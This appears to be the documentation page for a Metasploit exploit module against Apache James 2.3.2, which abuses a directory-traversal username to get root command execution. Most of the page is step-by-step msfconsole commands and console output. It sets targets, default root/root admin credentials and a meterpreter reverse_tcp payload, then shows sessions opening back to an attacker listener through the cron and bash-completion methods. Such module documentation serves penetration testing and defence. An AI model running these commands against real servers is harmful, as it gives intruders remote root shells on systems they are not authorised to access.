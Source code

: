 ## Vulnerable Application
  This module exploits a vulnerability that exists due to a lack of input validation when creating a user in Apache James 2.3.2.
  By creating a user with a directory traversal payload as the username, commands can be written to a given directory/file.
  Instructions for installing the vulnerable application for testing can be found here:
  https://www.exploit-db.com/docs/english/40123-exploiting-apache-james-server-2.3.2.pdf

## Verification Steps
  __1.__ Start msfconsole

  __2.__ DO: Load module exploit/linux/smtp/apache_james_exec

  __3.__ DO: Set the remote and local options: rhosts, lhosts, lport

  __4.__ DO: Set the preferred payload

  __5.__ DO: Run the check method to determine vulnerability

  __6.__ DO: Run the exploit

  __7.__ The payload will connect to the listener if the exploit is successful

## Options
### USERNAME:  The administrator username for Apache James 2.3.2 remote administration tool. By default this is 'root'.

### PASSWORD:  The administrator password for Apache James 2.3.2 remote administration tool. By default this is 'root'.

### ADMINPORT:  The port for Apache James 2.3.2 remote administration tool. By default this is '4555'.

### RHOSTS:  The IP address of the vulnerable server.

### RPORT:  The port number of the SMTP service.

### POP3PORT The port for the POP3 Apache James Service.  By default this '110'.

## Scenarios
  **If using Cron exploitation method:** This method allows for automatic execution of the payload with no user interaction
  required and gives the attacker root privileges. It will also attempt to automatically cleanup the malicious user and the
  mail objects.

  __1.__ Load the module:

```
  msf > use exploit/linux/smtp/apache_james_exec
```

  __2.__ Set remote and local options:

```
  msf exploit(linux/smtp/apache_james_exec) > set target 1
  target => 1
  msf exploit(linux/smtp/apache_james_exec) > set rhosts  192.168.224.169
  rhosts =>  192.168.224.169

  msf exploit(linux/smtp/apache_james_exec) > set lhost 192.168.224.167
  lhost => 192.168.224.167
  msf exploit(linux/smtp/apache_james_exec) > set lport 4444
  lport => 4444
```

  __3.__ Set payload:

```
  msf exploit(linux/smtp/apache_james_exec) > set payload linux/x64/meterpreter/reverse_tcp
  payload => linux/x64/meterpreter/reverse_tcp
```

  __4.__ Check version and run exploit:

```
  msf exploit(linux/smtp/apache_james_exec) > check
  [*] 192.168.224.164:25 - The target appears to be vulnerable.
  msf exploit(linux/smtp/apache_james_exec) > exploit
  
  [*] Started reverse TCP handler on 192.168.224.167:4444
  [+] 192.168.224.169:25 - Waiting 60 seconds for cron to execute payload
  [*] Sending stage (3021284 bytes) to 192.168.224.169
  [*] Meterpreter session 1 opened (192.168.224.167:4444 -> 192.168.224.169:38694) at 2020-02-02 16:30:02 -0800
  [*] 192.168.224.169:25 - Command Stager progress - 100.00% done (812/812 bytes)

  meterpreter >
```

  ---------------------------------------------------------------------------------------------
  **If using Bash Completion:** This method may be preferable if targeting a linux operating system such as some versions of Ubuntu that
  fails to run the cron method for exploitation. This exploitation method will leave an Apache James mail object artifact in the
  /etc/bash_completion.d directory and the malicious user account.

  __1.__ Load the module:

```
  msf > use exploit/linux/smtp/apache_james_exec
```

  __2.__ Set remote and local options:

```
  msf exploit(linux/smtp/apache_james_exec) > set target 0
  target => 0
  msf exploit(linux/smtp/apache_james_exec) > set rhosts 192.168.224.164
  rhosts => 192.168.224.164

  msf exploit(linux/smtp/apache_james_exec) > set lhost 192.168.224.167
  lhost => 192.168.224.167
  msf exploit(linux/smtp/apache_james_exec) > set lport 4444
  lport => 4444
```

  __3.__ Set payload:

```
  msf exploit(linux/smtp/apache_james_exec) > set payload linux/x64/meterpreter/reverse_tcp
  payload => linux/x64/meterpreter/reverse_tcp
```

  __4.__ Check version and run exploit:

```
  msf exploit(linux/smtp/apache_james_exec) > check
  [*] 192.168.224.164:25 - The target appears to be vulnerable.
  msf exploit(linux/smtp/apache_james_exec) > exploit

  [*] 192.168.224.164:25 - Command Stager progress - 100.00% done (812/812 bytes)
```

  __5.__ Set up and run listener (Can be done before running exploit):

```
  msf exploit(linux/smtp/apache_james_exec) > use exploit/multi/handler
  msf exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
  payload => linux/x64/meterpreter/reverse_tcp
  msf exploit(multi/handler) > set lport 4444
  lport => 4444
  msf exploit(multi/handler) > set lhost 192.168.224.167
  lhost => 192.168.224.167

  msf exploit(multi/handler) > run

  [*] Started reverse TCP handler on 192.168.224.167:4444
  [*] Sending stage (3021284 bytes) to 192.168.224.164
  [*] Meterpreter session 1 opened (192.168.224.167:4444 -> 192.168.224.164:34752) at 2020-01-18 18:25:14 -0800

  meterpreter >
```

## Targets
```
  Id  Name 
  --  ----
  0   Bash Completion
  1   Cron
```

## References
  1. <https://www.exploit-db.com/exploits/35513>
  2. <https://www.exploit-db.com/docs/english/40123-exploiting-apache-james-server-2.3.2.pdf>
